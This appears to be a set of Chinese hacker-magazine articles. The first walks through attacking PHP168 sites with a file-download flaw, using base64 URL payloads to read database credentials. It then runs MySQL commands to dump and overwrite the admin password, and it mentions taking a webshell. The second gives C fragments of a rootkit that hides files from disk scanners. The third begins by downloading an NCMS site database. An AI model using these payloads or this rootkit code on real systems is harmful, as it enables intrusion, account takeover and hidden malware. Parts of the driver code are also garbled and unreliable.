

图7

现在来看看这个数据库有哪些表，使用 mysql 命令：**show tables**。如果看到有 members 这个表，基本就可以判断里面有管理员的用户名和密码了，如图8。


图8

接下来我们来查看下可能有管理员信息的表结构，使用 mysql 命令：**describe p8_members**，可以看到有 uid、username、password，如图9。


图9



图10

来查看有哪些用户名（在渗透其它网站时候也可以使用连接远程数据库的方法，所以可能不知道用户名），使用的 mysql 命令为：**select username from p8_members order by uid**。可以看到 members 里面全部的用户名，如图10。这个命令的意思是以 uid 的顺序来列出 username 的内容，如果数据比较多的话就用：`select username from p8_members order by uid limit 0,30`，只列出前 30 个用户名。管理员肯定是 uid 第一的，这样就得到了管理员的用户名。

最重要的时候来了，我们来查询管理员的密码，使用 mysql 命令：`select password from p8_members order by uid`，可以看到 32 位 md5 加密的管理员密码，如图11。复制 cmd 命令里面的内容很简单，右键点击标记选中密码直接回车就复制下来了。



兴奋地拿到 md5 去破解，结果都查不到。难道要自己去暴力破解？当然不要那么麻烦，我们直接替换掉管理员的密码就可以了。随便 md5 加密一个简单的密码，这里我使用的是 123456，然后利用 mysql 命令：`update p8_members set password='e10adc3949ba59abbe56e057f20f883e' where username='hkhuaya'`，就可以替换管理员的密码为 123456 了，当然别忘记改回来，如图12。


现在就可以来登录后台了，很简单地就登录成功了，如图13；php168 后台拿 webshell 的方法有很多，这里就不多说了。

肯定有人会说这也太麻烦了，有没有简单的方法。当然有的，但是在 cmd 下敲击命令来入侵不是很有黑客的感觉吗。好，现在来介绍简单的方法。之前如果利用 phpnow 来安装 mysql 数据库的人这里就不用再安装 php 环境了，方法就是利用 php 的 webshell 来连接远程数据库（如果你手头有其它 php 网站的 webshell 也可以）。把 webshell 放到 phpnow 根目录的 htdocs 文件夹里，用浏览器访问 `http://127.0.0.1/webshell.php`，如图14。




点击 MySQL Manager，把 dbhost 填上网址或者 IP，dbuser 和 dbpass 填上 mysql 数据库的用户名和密码，点击连接就可以了，再来选择 dbhkhuaya 这个数据库，如图15。



进入数据库以后，直接选择表名就可以看到列表里的内容了，而且点击 Edit 就可以编辑里面的内容，很简单地就可以查看和替换管理员的密码了，如图16。编辑 password 里面的内容，点击 update 就可以修改管理员密码了。这样实在是太简单了，可以看出工具的确可以方便不少。但是在晚上放着电脑里的音乐去敲击 cmd 命令、来入侵网站的感觉，是使用工具体会不到的。



### 二、对工具的简单分析

使用工具来利用 0day 的确很简单，但是它利用的是什么漏洞呢。从可以爆出数据库的用户名和密码这点来看，应该是几个月前的“PHP168 下载任意文件漏洞”。于是去搜索了这个漏洞的利用教程，发现在网址后面加：`do/job.php?job=download&url=cGhwMTY4L215c3FsX2NvbmZpZy5waHAg` 就可以直接下载到数据库配置文件，得到数据库用户名密码。我去官网的演示网站试了下，结果不行，如图17。我的操作系统为 win7 旗舰版，浏览器为 IE8.0。


这就奇怪了，难道还真是新的漏洞吗？于是我来对这个工具进行抓包查看，抓包结果发现的确是这个漏洞，但是提交的方式不一样，如图18。工具提交的地址是：`o/job.php?job=download&url=cGhwMTY4L215c3FsX2NvbmZpZy5waHAv`，漏洞利用地址最后不是 g 而是 `/`。



网上的漏洞说明“url=”后面是 base64 加密，我找了一个在线解密网站解密了一下，如图19。发现在 `mysql_config.php` 后面加了“/”，再看了下网上的利用方法是在 `mysql_config.php` 后面加了空格。所以官网修复漏洞只是把空格处理了，这个漏洞实际还是存在的。


对官网进行测试，结果发现漏洞果然还是存在的，如图20。



继续对利用工具进行抓包，发现工具对 203.171.225.68 提交了数据，这样很有可能是后门，如图21。所以，我对利用工具的三个功能进行抓包后就不用这个工具了，而直接使用工具提交的链接。抓包和解密的结果如下：

| 功能 | 利用语句 | 对应文件 |
|---|---|---|
| 后台 | `/do/job.php?job=download&url=Y2FjaGUvYWRtaW5fbG9ncy5waHAv` | `cache/admin_logs.php/` |
| 日志 | `/do/job.php?job=download&url=Y2FjaGUvYWRtaW5sb2dpbi9sb2dzLnBocC8=` | `cache/adminlogin_logs.php/` |

总结，通过这次的漏洞工具利用复习了一些 mysql 数据库命令，对工具的抓包得到了漏洞的利用方法，发现了可能存在的后门。



> （本文所涉及的漏洞工具、webshell、抓包得到的语句已收录在本期光盘中）

## 并不神秘的Rootkit

轩辕流云

也许你在和别人聊天、看一篇文章，或一份技术分析报告中看到过这个字眼。也许你会觉得这是一个神秘、强大的某种事物，甚至在心中将它和高手划上等号。它的神秘和复杂令你望而却步，但它的强大又吸引着你的目光。现在我告诉你，它并不神秘，就是难度高了些，毕竟是高端技术，这篇文章会引领你去了解它。

看到这里，你想到了什么？通过本文一夜之间炼成 ROOTKIT 大法，从此无敌于江湖，成为万人景仰的大虾？有这种想法的人还请先去洗把脸，注意你现在手里拿的是一篇关于 ROOTKIT 的文章，而不是一本辟邪剑谱。

### 一、Rootkit 的来历

Rootkit 这个词第一次出现是在 1994 年 2 月一篇名为“Ongoing Network Monitoring Attacks”的安全咨询报告。不过它正式走向大众的视野却是在 2005 年。

那时 mp3 格式已经相当成熟，越来越多的人开始从 CD 中抽取音乐转为 mp3，然后在互联网上分享它们。音乐企业为了挽回在音乐盗版上所遭受到的损失而努力，其中一家公司 Sony BMG 决定在他们的 CD 上使用 XCP 与 Mediamax 防拷技术。这两种技术我们不必去了解，我们只要知道：Sony BMG 在其中加入了 Rootkit 技术。用户插入光盘后，防拷程序便在 Rootkit 的掩护下进了村……一位技术作家 Mark Russinovich 发现了这件事，在他的博客中发表了一篇文章揭露此事，引起了公众的强烈反响，最终导致 Sony BMG 从光盘中去掉这个程序并公开道歉。自此，Rootkit 进入了公众的视野。

### 二、Rootkit 的基本概念

我们可以将一部个人电脑粗略地划分成三个部分：硬件、操作系统、软件（严格来说操作系统也是软件，这里的划分是为了便于理解）。硬件提供最原始的工作环境和资源；操作系统盘踞在硬件平台上，对硬件提供的资源进行某种意义上的抽象化处理，并根据软件提出的申请进行分配。软件一般不能直接对硬件进行访问，只能藉由向顶头上司“操作系统”申请来获取资源。打个比方，硬件是自然环境，而操作系统是加工厂，软件则是电子工业。加工厂从自然环境获取资源进行初步加工后，根据需要提供给一些电子工业使用。

但如果你给某某电子工业一些矿石，让他们用这些矿石去生产一些电脑，恐怕他们会认为你来自“不正常人类研究中心”。不过这也并非绝对，仍然有一些程序可以直接访问硬件。比如驱动程序（其实操作系统就是通过形形色色的驱动程序来控制硬件的，就好比加工厂里的机器）。

提到 Rootkit，应该先了解一下系统运行的权限。我们一般把操作系统称为系统层（Ring0），将软件称为应用层（Ring3）。系统层权限高于应用层，系统层的指令将优先于应用层执行，且二者冲突时以系统层为准。（Windows 只使用其中的两个级别 RING0 和 RING3，RING0 只给操作系统用，RING3 谁都能用）。另外有一些程序也是 Ring0 级的，比如杀毒软件。拥有 Ring0 权限几乎可以进行任何操作，rootkit 是运行在系统层的。

Rootkit 到底有什么用呢？打一个比方。我将它比作一件隐身衣和一把宝剑，或者更贴切一点，一把能让使用者隐身的利剑。那么，这柄剑有什么作用呢？首先，它可以让使用者隐身，可以随意穿梭在电脑中而不被发现，如果你高兴，完全可以拿上这柄剑在杀软面前跳上一整支 disco。前提是你要先确定这位老大爷没有戴最新型的反 Rootkit 牌老花镜。（不过戴这副老花镜的杀软并不多）。这柄利剑的另一个功能就是无视一切防护，持有这柄剑你就可以在电脑中为所欲为，不会被任何程序所阻拦。当然，这个比方有些夸张，不过基本上也差不多。

现在我们给 Rootkit 下一个定义：Rootkit 是一个数字工具箱，可以加到恶意软件（木马、病毒、间谍软件）上来隐藏它，为它提供自由访问计算机的途径。恶意软件可以通过 Rootkit 加载到系统内核中，并通过修改内核达到隐藏的目的（比如让系统认为恶意软件占用的空间为坏块，从而躲避杀软扫描）。Rootkit 可以提供自由访问计算机的途径，这个比较好理解，通过 Rootkit 注入系统内核的恶意程序运行在系统层，具有 Ring0 权限。

另外有些人认为 Rootkit 是用来获取系统 root 权限的工具，其实并不是这样，Rootkit 的功能是可以将其它程序注入内核（有的 Rootkit 本身就是木马病毒）。如何获得将 Rootkit 植入内核的 root 权限，则需要另外想办法。

### 三、怎样防护 Rootkit 病毒

下面谈谈怎么防护，最好的办法就是御敌于国门之外。如果不慎中招，我只能告诉你，目前唯一能确定可以彻底清除的方法是——重装系统。不过这技术中国还流传得不广，所以也不必过于忧心。另外就是找一些专业软件扫描一下，也许那些软件有些办法也说不定。

### 四、Rootkit 初步应用

现在相信大家对 Rootkit 已经有了初步的认识，下面我们就制作一个小小的 Rootkit 试试。（如果您没有编程基础可以跳过本段不看。另外我为了使大家更了解 Rootkit，在网上收集了几篇比较好的文章，大家可以结合本文进行理解。）

RK（rootkit 的简称）的出现催生了 ARK（反 rootkit）技术的发展，也就是前面说的反 rootkit 百花齐放。这些老花镜对系统中的 RK 的检测主要分成两种：一种是对文件系统的检测（比如大名鼎鼎的冰刃），和另一种直接对磁盘的低级检测（Disk Low-Level Scanning）。此外还有在应用层上通过调用 ZwQueryDirectoryFile 进行检测的，不过效果不是太好，用的也不多。

其实不管怎么检测，都是直接或间接发送 IRP（I/O Request Packet 的缩写，即 I/O 请求包）到底层驱动的。第一种发送到 FSD 中（File System Driver，文件系统驱动程序，也就是前面说的系统层），第二种被发送到磁盘驱动（也就是前面说的驱动层），而后 IRP 便会携带得到的文件信息返回，这时检测程序再根据返回信息进行处理和判断。但是由于低级磁盘层比文件系统层低（更贴近硬件层），IRP 返回给我们的磁盘扇区信息更加接近数据原始组织方式，所以在此上实施文件检测可以得到更令人信服的结果。但这并不等于说这类检测不能被击败。

我们编写这段程序 RK 与其说是躲过检测，不如说是修改了检测结果，时髦的说法（好像也不怎么时髦了），可以叫做主动防御，嘿嘿。

具体就是挂钩某些函数的调用，然后过滤掉其中的一些信息。下面就是针对 IRP 形式检测的 Rootkit 编码：

```c
if(irp->SpMajorFunction==IRP_MJ_READ &&
   IsDiskdrvDevice(irpSp->DeviceObject)
   && irpSp->Parameters.Read.Length != 0)
{
    //声明的变量
    orgnThread = Irp->Tail.Overlay.Thread;
    ...
}
```

```c
orgnProcess = IoThreadToProcess(orgnThread);
if(Irp->MdlAddress)
{
    UserBuffer = (PVOID)((ULONG)Irp->MdlAddress->StartVa + Irp->MdlAddress->ByteOffset);
    //确定用户缓冲区是否有效
    if(UserBuffer)
    {
        if(KeGetCurrentIrql() == DISPATCH_LEVEL)
        {
            //取得具体工作结构
            RtlZeroMemory(WorkerCtx, sizeof(WORKERCTX));
            WorkerCtx->UserBuffer = UserBuffer;
            WorkerCtx->Length = irpSp->Parameters.Read.Length;
            WorkerCtx->Eproc = orgnProcess;
            ExInitializeWorkItem(&WorkerCtx->WorkItem, WorkerThread, WorkerCtx);
            ExQueueWorkItem(&WorkerCtx->WorkItem, CriticalWorkQueue);
        }
    }
}

//获得操作线程，改成被动模式，避免原始环境
//为了更安全，在第一次操作之前，可以调用
//用户模式的缓冲区在BSOD，下面是代码
VOID WorkerThread(PVOID Context)
{
    KIRQL irql;
    PEPROCESS eproc = ((PWORKERCTX)Context)->orgnEProc;
    PEPROCESS currProc = ((PWORKERCTX)Context)->currEProc;

    if(((PWORKERCTX)Context)->UserBuffer)
    {
        if(eproc != currProc)
        {
            KeAttachProcess(eproc);
            __try{
                //ProbeForWrite must be running...
            }
        }
    }
}
```

```c
APC_LEVEL
ProbeForWrite(((PWORKERCTX)Context)->UserBuffer, ((PWORKERCTX)Context)->Length,
              HandleAKDiskHide(((PWORKERCTX)Context)->UserBuffer, ((PWORKERCTX)Context)->Length));
...
KeDetachProcess();
return;
...
VOID HandleAKDiskHide(PVOID UserBuf, ULONG BufLen)
{
    ULONG i;
    BOOLEAN bIsNtfsIndex;
    BOOLEAN bIsNtfsFile;
    ULONG offset = 0;
    ULONG indexSize = 0;
    PINDEX_ENTRY currIndxEntry = NULL;
    PINDEX_ENTRY preIndxEntry = NULL;
    ULONG currPosition;

    bIsNtfsFile = (_strnicmp(UserBuf, NtfsFileRecordHeader, 4) == 0);
    bIsNtfsIndex = (_strnicmp(UserBuf, NtfsIndexRootHeader, 4) == 0);
}
```

```c
if (bIsNtfsFile == FALSE && bIsNtfsIndex == FALSE)
{
    for (i = 0; i < BufLen / 0x20; i++)
    {
        if (strnicmp(UserBuf, hideStr, ...))
        {
            *(PUCHAR)UserBuf = 0xE5;
            *(PULONG)((ULONG)UserBuf + 0x1E) = 0;
            break;
        }
        UserBuf = (PVOID)((ULONG)UserBuf + 0x20);
    }
}
else if (bIsNtfsFile)
{
    for (i = 0; i < BufLen / FILERECORDSIZE; i++)
    {
        if (!_wcsnicmp((PWCHAR)((ULONG)UserBuf + 0xF2), hideFile, 9))
        {
            memset((PVOID)UserBuf, 0, 0x4);
            memset((PVOID)((ULONG)UserBuf + 0xF2), 0, 18);
            break;
        }
        UserBuf = (PVOID)((ULONG)UserBuf + FILERECORDSIZE);
    }
}
else if (bIsNtfsIndex)
{
    offset = ((PINDEX_HEADER)UserBuf)->IndexEntryOffset + 0x18;
    indexSize = BufLen - offset;
    currPosition = 0;
    currIndxEntry = (PINDEX_ENTRY)((ULONG)UserBuf + offset);
}
```

（文章中所涉及到的编码和相关文章已收录在光盘中）

## WebShell获取之SQL语句执行

某天遇到一个企业站点，简单地测试了下，前台页面没有SQL注入漏洞，在地址栏后面加上“admin”跳到了后台管理页面（如图1），采用NCMS的CMS。

请求“http://www.***.com/database/%23ncms.mdb”，成功下载到数据库，用户名密码信息也是采用的弱口令。

